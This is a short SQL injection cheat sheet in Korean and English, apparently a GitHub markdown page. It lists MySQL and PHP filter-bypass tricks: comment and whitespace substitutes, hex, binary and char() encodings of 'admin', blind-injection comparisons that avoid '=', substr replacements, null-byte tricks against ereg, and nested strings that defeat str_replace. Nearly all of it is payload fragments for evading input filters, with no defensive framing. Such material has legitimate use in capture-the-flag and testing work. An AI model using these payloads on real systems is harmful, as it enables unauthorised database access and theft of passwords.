 <br />

> MySQL

```
다음 라인 : %0a //주석처리를 하더라도 다음 줄로 넘겨버리면 무시된다.
주석 처리 : -- # ;%00 /**/
파라미터가 두개 있을경우 \를 입력해 뒤의 '를 무력화 후 쿼리문을 스트링화 시키고 뒤에 파라미터에 exploit을 수행할 수 있다.
%0a 말고도 %0b 등 대신 쓰일 수 있는 여러문자들이 있다.
비교 문자 : = like in strcmp()
문자 자르기 : strcmp left right mid Function
and == &&, or ==||
if ord Function Filtering : conv(hex(substr(pw,1,1)),16,10)
공백 대신 : /**/ %09 %0a ()
IF(substr(lpad(bin(ord(substr(password,1,1))),8,0),1,1)
```

<br />

> SQLI

String Filtering [ preg_match - ex) admin]

```php
admin : 0x61646d696e 0b0110000101100100011011010110100101101110 char(0x61, 0x64, 0x6d, 0x69, 0x6e)
```

<br />

Blind SQL Injection Equal(=) Filltering

```php
substr('abc',1,1)like('a')
if(strcmp(substr('abc',1,1),'a'),0,1)
substr('abc',1,1)%20in('a')
```

<br />

substr Filtering

```php
right(left('abc',1),1)
id > 0x41444d4941 'ADMIN' > 'ADMIA'(hex)
```

<br />

ereg, eregi

```php
'admin' Filtering -> 'AdmIN' bypass
FRONT %00 INSERT -> 뒤에 문자 필터링 처리 안됨
```

<br />

replace, replaceAll, str_replace

```php
'admin' Filtering -> 'adadminmin' 'adadmimin' 'admadminin' 'admdmiadmdmiinin'
```
